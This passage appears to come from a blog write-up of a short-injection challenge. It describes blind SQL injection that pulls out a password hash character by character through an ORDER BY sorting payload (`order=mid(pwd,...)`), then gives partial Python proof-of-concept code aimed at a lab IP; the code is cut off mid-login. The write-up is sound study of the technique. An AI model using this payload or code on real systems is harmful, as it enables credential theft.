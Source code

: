 Doing this for every character will extract the password hash from the database.

# Exploit
Running the exploit, it will try to register an user "nuit" with initial password "test". After this, it checks the sorting of each character in `md5("test")` with the payload `order=mid(pwd,&sort=<n>,1),id`.
After it has all informations it can extract from the single md5 hash, it uses the hash as new password and uses `md5(md5("test"))` as new hash. That's an easy way for an endless supply of hashes.
(See code at the end of the article)

![Exploit in GIF](/blog/img/_posts/ezgif.com-gif-maker.gif)

Needless to say: even with the sorting by id (which makes it more reliable and faster) we crush the below 22 characters challenge with 17 chars.
Without it would be 12 :)

# Conclusion
I have never ever extracted data by sorting the output. But it is a pretty good and fast method with short injections.

If there is a better method extracting the hash, let me know on twitter.

so long

# PoC Code
*Shame on me...the code is pretty ugly*
```python
import sys
import requests
import hashlib
from bs4 import BeautifulSoup

start='test'
t = {}
md5=hashlib.md5(start.encode('utf-8')).hexdigest()

s = requests.Session()
print("[+] Registering user 'nuit' with password '%s'" % (start))
r = s.post('http://33.33.33.10/index.php?action=register',data={
    'username':'nuit',
    'password':start,
    'email': 'blubb@blaa.com',
    'hp': 'http://1',
    'save':'Create'
})

print("[+] Querying user 'nuit' to get ID for later sorting")
r = requests.get('http://33.33.33.10/index.php?action=list')
soup = BeautifulSoup(r.text, 'html.parser')
table = soup.find('div',attrs={'id':'inhalt'})
for tr in table.find_all('tr'):
    names = tr.find_all('th')
    if(names[1].text == 'nuit'):
        id = names[0].text
        break

print("[+] Received ID: '%s'" % (id))
print("[+] Login to obtain session")
r = s.post('http://33.33.33.10/index.php?action=login',data={
    'username':'nuit',
    'password':start,
```